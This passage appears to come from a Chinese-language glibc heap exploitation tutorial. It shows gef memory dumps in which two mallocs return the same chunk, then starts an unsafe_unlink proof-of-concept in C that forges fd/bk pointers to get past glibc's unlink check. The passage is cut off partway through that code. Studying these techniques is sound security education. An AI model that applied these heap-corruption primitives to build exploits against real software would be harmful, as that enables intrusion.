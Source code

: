 第一次 malloc，chunk 将从 fastbins 中取出：

```text
gef➤  x/15gx 0x602010-0x10
0x602000:   0x0000000000000000  0x0000000000000021  <-- chunk p1 [be freed], chunk p4
0x602010:   0x0043434343434343  0x00007ffff7dd1b88
0x602020:   0x0000000000000020  0x0000000000000020  <-- chunk p2
0x602030:   0x4242424242424242  0x0000000000000000
0x602040:   0x0000000000000000  0x0000000000000411  <-- chunk p3
0x602050:   0x0000000000000000  0x0000000000000000
0x602060:   0x0000000000000000  0x0000000000000000
0x602070:   0x0000000000000000
gef➤  heap bins fast
[ Fastbins for arena 0x7ffff7dd1b20 ]
Fastbins[idx=0, size=0x10] 0x00
gef➤  heap bins small
[ Small Bins for arena 'main_arena' ]
[+] small_bins[1]: fw=0x602000, bk=0x602000
 →   Chunk(addr=0x602010, size=0x20, flags=PREV_INUSE)
[+] Found 1 chunks in 1 small non-empty bins.
```

第二次 malloc，chunk 从 small bins 中取出：

```text
gef➤  x/15gx 0x602010-0x10
0x602000:   0x0000000000000000  0x0000000000000021  <-- chunk p4, chunk p5
0x602010:   0x4444444444444444  0x00007ffff7dd1b00
0x602020:   0x0000000000000020  0x0000000000000021  <-- chunk p2
0x602030:   0x4242424242424242  0x0000000000000000
0x602040:   0x0000000000000000  0x0000000000000411  <-- chunk p3
0x602050:   0x0000000000000000  0x0000000000000000
0x602060:   0x0000000000000000  0x0000000000000000
0x602070:   0x0000000000000000
```

chunk p4 和 p5 在同一位置。

### unsafe_unlink

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>

uint64_t *chunk0_ptr;

int main() {
    int malloc_size = 0x80; // not fastbins
    int header_size = 2;

    chunk0_ptr = (uint64_t*) malloc(malloc_size); //chunk0
    uint64_t *chunk1_ptr  = (uint64_t*) malloc(malloc_size); //chunk1
    fprintf(stderr, "The global chunk0_ptr is at %p, pointing to %p\n", &chunk0_ptr, chunk0_ptr);
    fprintf(stderr, "The victim chunk we are going to corrupt is at %p\n\n", chunk1_ptr);

    // pass this check: (P->fd->bk != P || P->bk->fd != P) == False
    chunk0_ptr[2] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*3);
    chunk0_ptr[3] = (uint64_t) &chunk0_ptr-(sizeof(uint64_t)*2);
    fprintf(stderr, "Fake chunk fd: %p\n", (void*) chunk0_ptr[2]);
    fprintf(stderr, "Fake chunk bk: %p\n\n", (void*) chunk0_ptr[3]);
    // pass this check: (chunksize(P) != prev_size (next_chunk(P)) == False
    // chunk0_ptr[1] = 0x0; // or 0x8, 0x80

    uint64_t *chunk1_hdr = chunk1_ptr - header_size;
    chunk1_hdr[0] = malloc_size;
```